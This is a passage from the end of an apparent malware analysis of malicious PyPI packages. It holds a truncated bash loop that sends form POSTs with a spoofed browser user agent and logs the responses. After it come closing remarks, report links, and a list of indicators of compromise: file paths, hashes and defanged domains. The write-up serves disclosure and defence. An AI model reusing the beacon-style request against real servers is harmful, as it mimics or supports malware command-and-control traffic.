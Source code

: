 ```bash
      -A "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/116.0.5786.212 Safari/537.36" \
      -H "Content-Type: application/x-www-form-urlencoded" -H "Accept: image/gif, image/x-bitmap, image/jpeg, image/pjepg, application/x-shockwave-flash, */*" \
      -d 'lkjyhnmiop=689321559&odldjshrn=dsaewqfewf'
  )
  echo $(echo $RESP | md5sum):$RESP | tee -a /tmp/log.txt
done
```

## Closing Remarks

All packages have been reported to and removed by the PyPI administrators. A special thanks to our friends at
[Phylum](https://www.phylum.io/) for helping us with the initial payload, security administrators at PyPI for their
rapid handling of our reports, and Vipyr Security community contributors for the reversal and analysis of the malicious
code.

## Appendix

- [Tria.ge report](https://tria.ge/240229-24b5hsfb2v)
- [Intezer analyze report](https://analyze.intezer.com/analyses/d4a4a5c5-ee86-43ec-a331-e80b2ce0f092)

### Indicators of Compromise (IoCs)

```json
[
  {
    "type": "file",
    "path": "/home/*/oshelper",
    "sha256": "973f7939ea03fd2c9663dafc21bb968f56ed1b9a56b0284acf73c3ee141c053c",
    "md5": "33c9a47debdb07824c6c51e13740bdfe"
  },
  {
    "type": "file",
    "path": "/tmp/xweb_log.md",
    "sha256": null,
    "md5": null
  },
  {
    "type": "domain",
    "name": "pypi[.]online"
  },
  {
    "type": "domain",
    "name": "arcashop[.]org"
  },
  {
    "type": "domain",
    "name": "jdkgradle[.]com"
  }
]
```
